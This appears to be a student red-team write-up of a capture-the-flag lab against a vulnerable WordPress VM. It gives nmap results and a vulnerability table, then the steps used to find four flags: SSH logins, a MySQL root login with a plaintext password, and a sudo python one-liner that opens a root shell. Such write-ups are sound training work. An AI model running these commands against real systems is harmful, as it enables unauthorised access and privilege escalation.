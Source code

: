 Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation


### Exposed Services
TODO: Fill out the information below.
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

![](Images/Target%201%20Nmap%20Scan.png)

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |



![](Images/Word%20Press%20Scan.png)

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1


flag1.txt: ![](Images/Flag1%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag


flag2.txt: ![](Images/Flag2%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: ![](Images/Flag3.png)

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/html/wordpress
- mysql -u root -p
- R@v3enSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: ![](Images/Flag4.png)

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
